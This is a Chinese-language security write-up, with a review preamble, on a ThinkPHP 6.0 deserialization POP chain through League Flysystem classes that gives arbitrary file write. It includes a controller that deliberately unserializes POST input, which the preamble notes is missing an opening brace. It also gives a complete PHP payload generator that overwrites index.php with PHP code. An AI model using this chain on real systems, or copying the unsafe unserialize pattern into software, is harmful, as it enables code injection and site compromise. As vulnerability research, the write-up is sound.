

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：ThinkPHP6.0.2+PHP7.2例子，真正相关Flysystem包版本未给；必须自建unserialize与可写路径

代码与实验材料：完整生成器及类图截图，控制器缺起始大括号，写入目标index.php会覆盖应用

来源证据范围：有pines404及安全客194269

- **适用与权限边界（1）**：主产品应细化至Flysystem依赖；依据：链上全部为League Flysystem类，不是ThinkPHP核心默认入口。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（2）**：示例控制器语法破损与危险目标；依据：class Index extends BaseController后缺{；直接写/var/www/html/index.php可破坏入口。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **适用与权限边界（3）**：绝对路径必要性未充分证明；依据：只以ensureDirectory推断必须绝对路径，未区分pathPrefix配置与权限。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Thinkphp 6.0 任意文件写入pop链

一、漏洞简介
------------

需要知晓绝对路径

二、漏洞影响
------------

Thinkphp 6.0

三、复现过程
------------

### 环境搭建

ThinkPHP6.0.2

PHP7.2

    <?php
    namespace app\controller;
    use app\BaseController;

    class Index extends BaseController

        public function test(){
            echo base64_decode($_POST['payload']);
            $payload = unserialize(base64_decode($_POST['payload']));
        }
    }

### 漏洞分析

POP链：

    League\Flysystem\Cached\Storage\AbstractCache --> destruct()
    League\Flysystem\Cached\Storage\Adapter --> save()
    League\Flysystem\Adapter\Local --> write()
    vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php

因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`

\$contents决定文件写入内容，显然可向\$this-\>complete或\$this-\>expire写入具体内容即可

接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件

但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

    <?php
    namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
    use League\Flysystem\Adapter\Local;
    abstract class AbstractCache{
        protected $autosave = true;
        protected $cache = [];
        protected $complete = [];
        function __construct(){
            $this->autosave = false;
            $this->cache = ['test'];
            $this->complete = ["axin"=>"<?php phpinfo();?>"];
        }
    }

    class Adapter extends AbstractCache{
        protected $adapter;
        protected $file;
        protected $expire = null;

        function __construct(){
            parent::__construct();
            $this->adapter = new Local();
            $this->file = "var/www/html/index.php";
            #$this->file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
            $this->expire = 123;
        }
    }

    namespace League\Flysystem\Adapter;
    abstract class AbstractAdapter{
        protected $pathPrefix;
        function __construct(){
            $this->pathPrefix = "/";
            #$this->pathPrefix = "D";  #windows下目录
        }
    }
    class Local extends AbstractAdapter{

    }
    use League\Flysystem\Cached\Storage\Adapter;
    echo base64_encode(serialize(new Adapter()));

效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

文件成功写入：

参考链接
--------

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/
>
> https://www.anquanke.com/post/id/194269
